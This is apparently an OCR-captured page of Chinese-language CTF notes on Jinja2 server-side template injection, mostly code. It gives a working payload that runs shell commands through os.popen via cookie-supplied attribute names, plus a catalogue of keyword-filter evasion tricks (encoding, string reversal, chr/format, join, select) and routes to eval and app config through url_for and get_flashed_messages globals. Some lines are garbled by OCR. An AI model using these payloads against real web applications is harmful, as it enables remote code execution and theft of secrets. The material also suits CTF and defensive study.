 ##### 过滤[’’] (’’) {}

```python
# request传参
request.args.x1   	get传参
request.values.x1 	get、post传参
request.cookies
request.form.x1   	post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		post传参	(Content-Type:a/b)
request.json		post传json  (Content-Type: application/json)
# e.g. 
{{(x|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3))(request.cookies.x4).eval(request.cookies.x5)}}
x1=__init__;x2=__globals__;x3=__getitem__;x4=__builtins__;x5=__import__('os').popen('cat /flag').read()
12345678910
```

##### 过滤关键字

```python
# 单引号双引号都可，+号可省略
"cla"+"ss"
# 反转
"__ssalc__"[::-1]
# ascii转换
"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
# 编码绕过
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
# 对于python2的话，还可以利用base64进行绕过
"__class__"==("X19jbGFzc19f").decode("base64")
# 利用chr函数
#先找到builtins
{% set chr=url_for.__globals__['__builtins__'].chr %}
{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
# format
"%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)=='__class__'
""["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)]
#Jinjia2可用~拼接
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
#大小写转换，若只过滤了小写
""["__CLASS__".lower()]
""["__CLASS__"|lower]
# join
""[['__clas','s__']|join]==""[('__clas','s__')|join]==""["__class__"]
# replace
"__claee__"|replace("ee","ss")
# reverse
"__ssalc__"|reverse
# select拼接
(()|select|string)[24]~
(()|select|string)[24]~
(()|select|string)[15]~
(()|select|string)[20]~
(()|select|string)[6]~
(()|select|string)[18]~
(()|select|string)[18]~
(()|select|string)[24]~
(()|select|string)[24]~ == "__class__"
# url_for和get_flash_message
get_flashed_messages.__globals__['current_app'].config
get_flashed_messages.__globals__['builtins']['eval']
url_for._globals_[‘current_app’].config
url_for._globals_['builtins']['eval']
```